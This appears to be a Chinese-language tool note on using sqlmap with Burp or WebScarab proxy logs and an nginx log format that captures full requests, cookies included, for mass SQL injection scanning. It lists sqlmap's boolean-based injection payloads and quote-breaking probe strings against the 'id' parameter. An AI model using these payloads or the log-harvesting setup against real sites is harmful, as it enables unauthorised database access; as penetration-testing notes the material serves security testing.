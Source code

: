 # 使用
从Burp或者WebScarab代理中获取日志

参数：-l 从文本中获取多个目标扫描

可以直接吧Burp proxy或者WebScarab proxy中的日志直接倒出来交给sqlmap来一个一个检测是否有注入。

---

```
log_format main '
=====================================================
=====================================================
$request
Cookie: $http_cookie
User-Agent: $http_user_agent
Content-Type: $content_type
Content-Length: $content_length
Host: $host

$request_body
=====================================================
';   
```

- [Sqlmap联合Nginx实现“地毯式”检测网站SQL注入漏洞](https://cloud.tencent.com/developer/article/1036346)


---
# 做了啥子操作？

```
brandType=401&id=77
brandType=401&id=77
brandType=3681&id=77
brandType=401,(,",.))',&id=77
brandType=401'ewNhij<'">MqximG&id=77
brandType=401&id=8162
brandType=401&id=77,.'((.,(."
brandType=401&id=6611-6534
brandType=401&id=77.2fPlP
brandType=401&id=77'ffVRFy<'">XsvuSc
```

对id开放注入攻击

```
id=77&limit=20&page=1
id=77&limit=20&page=1
id=8739&limit=20&page=1
id=77,.",).'(.,&limit=20&page=1
id=77'OOerIg<'">odbsUK&limit=20&page=1
id=77) AND 2322=7663-- uEsi&limit=20&page=1
id=77) AND 3000=3000-- lVSy&limit=20&page=1
id=77) AND 1299=6921 AND (1828=1828&limit=20&page=1
id=77) AND 3000=3000 AND (5356=5356&limit=20&page=1
id=77)) AND 2927=1013 AND ((1285=1285&limit=20&page=1
id=77)) AND 3000=3000 AND ((2333=2333&limit=20&page=1
id=77))) AND 3202=5357 AND (((8471=8471&limit=20&page=1
id=77))) AND 3000=3000 AND (((9168=9168&limit=20&page=1
id=77 AND 8618=9900&limit=20&page=1
id=77 AND 3000=3000&limit=20&page=1
id=77 AND 7042=5956&limit=20&page=1

```